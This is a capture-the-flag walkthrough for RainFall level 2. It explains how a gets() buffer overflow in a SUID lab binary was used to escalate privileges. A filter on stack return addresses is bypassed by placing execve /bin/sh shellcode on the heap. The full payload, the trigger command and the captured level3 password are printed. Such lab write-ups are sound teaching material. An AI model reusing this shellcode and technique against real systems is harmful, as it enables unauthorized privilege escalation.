 # Level 2 Walkthrough

## Who am I?

```bash
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
```

## Where am I?

```bash
level2@RainFall:~$ ll
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 ./
dr-x--x--x  1 root   root    340 Sep 23  2015 ../
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2*
```

We are in possession of a SUID binary owned by level3. Our objective is to exploit this binary to gain a shell as level3 and read the corresponding `.pass` file.

## First look at the binary (GDB)

Before running the binary, we open it in GDB to check which functions are defined:

```
(gdb) info functions
...
0x080484d4 p
0x0804853f main
```

We see two user-defined functions of interest: `main()` and `p()`.

Let’s disassemble `main()`:

```
(gdb) disas main
    0x0804853f <+0>: push %ebp
    0x08048540 <+1>: mov %esp,%ebp
    0x08048542 <+3>: and $0xfffffff0,%esp
    0x08048545 <+6>: call 0x80484d4 <p>
    0x0804854a <+11>: leave
    0x0804854b <+12>: ret
```

The main function simply calls `p()`.

Now, disassembling `p()` gives:

```
(gdb) disas p
    ...
    call 0x80483c0 <gets@plt>
    ...
    call 0x80483f0 <puts@plt>
    ... call 0x80483e0 <strdup@plt>
```

We immediately notice the use of the insecure `gets()` function and that the input is printed and copied using `puts()` and `strdup()` respectively. This sets the stage for a possible buffer overflow exploit.

## Program Behavior

The program accepts input from stdin, prints it back, and exits.

```bash
level2@RainFall:~$ ./level2
test
test
```

But when given a longer input:

```bash
level2@RainFall:~$ ./level2
<100+ characters>
Segmentation fault (core dumped)
```

This crash strongly suggests the presence of a buffer overflow.

## Exploitation Strategy

### Step 1: Discover the overflow offset

We generate a cyclic pattern of 100 bytes:

```bash
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5...
```

Then launch the binary inside GDB:

```gdb
(gdb) run
Aa0Aa1Aa2Aa3Aa4Aa5...
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info registers eip
eip            0x37634136       0x37634136
```

We find the offset:

```bash
$ msf-pattern_offset -q 0x37634136
[*] Exact match at offset 80
```

So it takes **80 bytes** to reach EIP.

### Step 2: Understand the program's filter

Using Ghidra, we decompiled the binary and observed the following logic in the function `p()`:

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```

**Note:** The variable `unaff_retaddr` does not appear in the source code. This is a name automatically generated by Ghidra to represent the return address saved on the stack. Internally, the program likely retrieves this using a compiler intrinsic such as `__builtin_return_address(0)`.

This check verifies whether the return address (i.e., the address where execution would continue after the function ends) starts with `0xb`, which corresponds to stack memory on this system (e.g., `0xbfxxxxxx`).

If the return address points to the stack, the program prints it and exits immediately. This effectively blocks stack-based shellcode. As a result, we must place our shellcode somewhere else, like the heap and redirect execution there instead.

### Step 3: Determine a usable memory region

At this point, we know that jumping to the stack is forbidden. To successfully exploit the binary, we need to redirect execution to a region where we can inject shellcode that won't be rejected by the address check.

The heap is a good candidate because memory allocations via `malloc()` (used indirectly by `strdup()`) are typically located in the `0x0804xxxx` range, which does not begin with `0xb`.

We will now verify where the heap allocation occurs.

### Step 4: Identify the heap allocation address


After entering input, the program stores a copy of it using `strdup()`, which allocates memory on the heap. This is important because, due to the return address filter (see Step 2), we cannot execute shellcode on the stack.
`ltrace` is a tool that traces calls to shared libraries (like `libc`). It allows us to observe functions such as `gets`, `strdup`, `malloc`, etc., in real time, without needing symbols or debugging information.

So, to locate where the input gets copied in the heap, we can run the binary with `ltrace`:

```
$ ltrace ./level2
fflush(0xb7fd1a20)                                    = 0
gets(0xbffff6fc)                                      = 0xbffff6fc
puts("test")                                          = 5
strdup("test")                                        = 0x0804a008

```

This confirms that our input is copied to the heap at `0x0804a008` via `strdup()`.

Since this address doesn't start with 0xb, it passes the check and is usable for exploitation. This is where we’ll inject our shellcode, and later overwrite the return address to jump here.

### Step 5: Plan the payload layout

At this point, we know:

* We can inject shellcode through standard input.
* It will be stored in the heap via `strdup()` at an address like `0x0804a008`.
* The return address is overwritten at offset 80.

The goal is to:

1. Place shellcode at the beginning of the input so it ends up in the heap.
2. Pad the rest of the input up to 80 bytes.
3. Overwrite the return address with the address of the shellcode in the heap.

We can now move on to crafting the actual payload.

### Step 6: Build the exploit payload

* Shellcode (28 bytes): `execve("/bin//sh")` from [https://shell-storm.org/shellcode/files/shellcode-811.html](https://shell-storm.org/shellcode/files/shellcode-811.html)
* Padding (52 bytes): to reach EIP at offset 80
* Return address: `0x0804a008` (address of shellcode in heap)

```bash
python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 52 + "\x08\xa0\x04\x08")' > /tmp/exploit
```

### Step 7: Trigger the exploit

To maintain an interactive shell:

```bash
cat /tmp/exploit - | ./level2
```

### Step 8: Validate access

```bash
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Files in this repository

* `flag.txt` : file containing the retrieved flag
* `asm_analysis.md` : GDB analysis of the binary
* `decompiled_level2/` : folder containing the reconstructed C code from Ghidra&#x20;

